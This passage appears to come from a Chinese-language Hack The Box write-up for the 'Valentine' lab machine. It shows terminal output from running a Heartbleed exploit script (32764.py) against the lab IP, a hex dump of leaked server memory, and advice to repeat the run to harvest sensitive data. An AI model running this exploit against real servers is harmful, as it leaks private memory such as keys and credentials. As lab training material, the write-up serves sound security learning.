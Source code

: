 漏洞利用：

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ python2 32764.py 10.10.10.79
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .&#43;..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....&#34;.
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
```

同样，因为信息泄露的不确定性，我们需要多执行几次，以发现所期望的敏感信息。
